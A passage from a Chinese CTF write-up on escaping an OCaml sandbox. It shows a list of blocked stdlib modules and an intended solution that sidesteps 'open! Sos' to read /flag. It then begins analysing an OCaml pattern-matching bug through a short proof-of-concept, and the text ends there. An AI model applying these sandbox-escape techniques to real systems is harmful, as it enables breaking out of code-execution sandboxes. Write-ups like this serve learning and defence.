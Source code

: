 ```
module Stdlib__bytesLabels = Fixed_bytesLabels
module Stdlib__char = Fixed_char
module Stdlib__filename = Fixed_filename
module Stdlib__float = Fixed_float
module Stdlib__marshal = Blocked
module Stdlib__obj = Blocked
module Stdlib__pervasives = Blocked
module Stdlib__printexc = Blocked
module Stdlib__scanf = Fixed_scanf
module Stdlib__spacetime = Blocked
module Stdlib__stdLabels = Fixed_stdLabels
module Stdlib__string = Fixed_string
module Stdlib__stringLabels = Fixed_stringLabels
module Stdlib__sys = Blocked
module Stdlib__uchar = Fixed_uchar
```

则是阻断了可以执行shell命令的接口。

### <a class="reference-link" name="%E8%A7%A3%E9%A2%98%E8%BF%87%E7%A8%8B"></a>解题过程
<li>由于这个题目有两个，第一个是如上加了`open! Sos\n`，这里的预期解法是：
<pre><code class="lang-ocaml"> open! Sos (* add by main **)
 .Fixed_arg;;
 let ic = open_in "/flag";;
 let flag = input_line ic;;
 print_string flag;;
</code></pre>
也就是实际上并没有完全加载Sos，而是只加载了`Sos.Fixed_arg`，因此沙箱失效，仍然可以orw。
</li>
<li>而主要是第二个，其实来自于SECCON 2020 Quals上的mlml，只是在那基础上添加了更为严格的沙箱，把当时比赛上的非预期都屏蔽了。<br>
但是这篇[博客](https://moraprogramming.hateblo.jp/entry/2020/10/14/185946)中，还是提到了预期解在于Ocaml本身的一个[漏洞](https://github.com/ocaml/ocaml/issues/7241)。<br>
同时，还给出了exp，所以比赛的时候就照着改一些偏移就能打通了，接下来具体分析一下是怎么利用的。</li>
### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

首先从这个简单的POC入手：

```
type u = `{`a: bool; mutable b: int option`}`

let f x =
  match x with
    `{` a = false; _ `}` -&gt; 0
  | `{` b = None; _ `}` -&gt; 1
  | _ when (x.b &lt;- None; false) -&gt; 2
  | `{` a = true; b = Some y `}` -&gt; y

let _ = f `{` a = true; b = Some 5`}`
```
